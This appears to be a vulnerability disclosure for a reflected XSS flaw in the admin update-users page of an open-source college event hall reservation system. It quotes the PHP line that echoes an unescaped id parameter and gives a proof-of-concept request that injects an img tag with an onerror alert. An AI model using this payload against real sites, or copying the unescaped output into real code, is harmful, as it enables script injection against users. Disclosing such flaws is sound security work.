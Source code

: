 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Reflected XSS update-users.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/

## Affected Component
> /admin/update-users.php

## Code
```php
<a class="btn btn-secondary"  href='rooms.php?id=<?php echo $id; ?>'>Cancel</a>
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/update-users.php?id="><img+src%3dx+onerror%3dalert("NoChizPlz")> HTTP/1.1
Host: [REDACTED]
```

## Screenshot

